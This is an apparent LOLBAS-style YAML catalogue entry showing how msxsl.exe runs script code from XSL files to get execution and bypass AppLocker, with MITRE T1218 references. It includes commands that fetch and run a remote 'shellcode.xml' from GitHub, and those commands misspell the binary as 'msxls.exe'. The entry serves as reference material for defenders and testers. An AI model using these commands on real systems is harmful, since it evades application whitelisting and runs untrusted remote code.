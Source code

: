```yaml
---
Name: msxsl.exe
Description: Command line utility used to perform XSL transformations.
Author: 'Oddvar Moe'
Created: '2018-05-25'
Commands:
  - Command: msxsl.exe customers.xml script.xsl
    Description: Run COM Scriptlet code within the script.xsl file (local).
    Usecase: Local execution of script stored in XSL file.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: msxsl.exe customers.xml script.xsl
    Description: Run COM Scriptlet code within the script.xsl file (local).
    Usecase: Local execution of script stored in XSL file.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
    Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
    Usecase: Local execution of remote script stored in XSL script stored as an XML file.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
    Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
    Usecase: Local execution of remote script stored in XSL script stored as an XML file.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
Full_Path:
  - Path:
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://twitter.com/subTee/status/877616321747271680
  - Link: https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

